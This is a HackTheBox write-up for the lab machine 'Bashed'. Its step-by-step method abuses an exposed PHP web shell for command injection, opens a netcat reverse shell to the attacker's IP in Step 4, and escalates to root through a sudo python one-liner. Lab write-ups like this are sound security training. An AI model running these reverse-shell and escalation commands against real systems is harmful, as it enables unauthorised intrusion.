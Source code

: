 # HackTheBox - Bashed

## Challenge Information

| Field | Value |
|-------|-------|
| **Platform** | HackTheBox |
| **Challenge Name** | Bashed |
| **Category** | Linux Exploitation |
| **Difficulty** | Easy |
| **Points** | 20 |
| **Author** | ch4p |
| **Date Completed** | 2025-08-24 |

## Objective 🎯

Bashed is a Linux machine with a web application that has a command execution vulnerability. The goal is to exploit the vulnerability to gain system access and obtain both user and root flags. Command injection time! 💻

## Initial Reconnaissance

### Target Information
- **IP Address**: 10.10.10.68
- **OS**: Linux
- **Service**: Web Application

### Tools Used
- Nmap
- Web browser
- Command injection

### Commands/Steps
```bash
nmap -sC -sV 10.10.10.68
```

## Methodology

### Step 1: Port Scan
```bash
nmap -sC -sV 10.10.10.68
```

### Step 2: Web Application Enumeration
```bash
curl http://10.10.10.68/
```

### Step 3: Command Injection
```bash
curl "http://10.10.10.68/dev/phpbash.php?cmd=id"
```

### Step 4: Reverse Shell
```bash
curl "http://10.10.10.68/dev/phpbash.php?cmd=nc -e /bin/bash 10.10.14.2 4444"
```

### Step 5: Privilege Escalation
```bash
sudo -l
sudo /usr/bin/python3 -c "import os; os.system('/bin/bash')"
```

### Step 6: Find Flags
```bash
cat /home/scriptmanager/user.txt
cat /root/root.txt
```

## Solution

### Final Answer
- **User Flag**: [REDACTED]
- **Root Flag**: [REDACTED]

## Key Learnings

- Web application command injection
- PHP web shell exploitation
- Python privilege escalation
- Linux system exploitation

## Tags

`#hackthebox` `#linux` `#command-injection` `#php` `#python` `#easy`
